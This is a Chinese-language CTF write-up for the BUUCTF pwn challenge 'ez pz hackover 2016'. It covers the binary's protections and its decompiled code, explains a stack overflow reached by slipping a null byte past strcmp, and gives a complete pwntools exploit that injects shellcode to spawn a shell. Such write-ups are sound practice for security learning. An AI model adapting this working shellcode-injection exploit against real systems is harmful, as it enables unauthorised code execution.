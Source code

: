 ```yaml
---
author: 
  name: Zephyr
title: ez pz hackover 2016
date: 2022-3-25 17:31:03
permalink: /pages/2e1547494524d19a
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ez pz hackover 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ez_pz_hackover_2016/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  header();
  chall();
  return 0;
}
```

header函数如下

```c
int header()
{
  printf("\n");
  printf("             ___ ____\n");
  printf("      ___ __| _ \\_  /\n");
  printf("     / -_)_ /  _// / \n");
  printf("     \\___/__|_| /___|\n");
  printf("        lemon squeezy\n");
  return printf("\n\n");
}
```

vuln函数如下

```c
void *__cdecl vuln(char src, size_t n)
{
  char dest; // [esp+6h] [ebp-32h]

  return memcpy(&dest, &src, n);
}
```



chall函数如下

```c
int chall()
{
  size_t v0; // eax
  int result; // eax
  char s; // [esp+Ch] [ebp-40Ch]
  _BYTE *v3; // [esp+40Ch] [ebp-Ch]

  printf("Yippie, lets crash: %p\n", &s);
  printf("Whats your name?\n");
  printf("> ");
  fgets(&s, 1023, stdin);
  v0 = strlen(&s);
  v3 = memchr(&s, 10, v0);
  if ( v3 )
    *v3 = 0;
  printf("\nWelcome %s!\n", &s);
  result = strcmp(&s, "crashme");
  if ( !result )
    result = vuln((unsigned int)&s, 0x400u);
  return result;
}
```

## 思路分析

1. 目前信息：
   - 栈上s地址已知
   - 若输入crashme可进入vuln函数
   - vuln函数可溢出
   - 无system、/bin/sh及后门函数
   - No canary found
   - NX disabled
   - No PIE
   - Has RWX segments
2. 思路：
   - 利用`\x00`绕过strcmp为vuln函数中的溢出创造条件，另将shellcode写入栈上s的地址，返回到shellcode处获得shell

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/ez_pz_hackover_2016/ez_pz_hackover_2016'
# io = remote("node4.buuoj.cn", 26153)
io = process(pwnfile)
io.recvuntil('Yippie, lets crash: ')
stack_s_addr = int(io.recvuntil('\nWhats your name?\n', drop=True), 16)
padding = 0x1a
shellcode = asm(shellcraft.sh())
payload = b'crashme\x00'.ljust(padding, b'a')
# s距离ebp的偏移为0x1a
payload += flat([stack_s_addr-0x1c, shellcode])
# shellcode距离stack_s_addr的偏移为0x1c
io.sendafter('> ', payload)
io.interactive()
```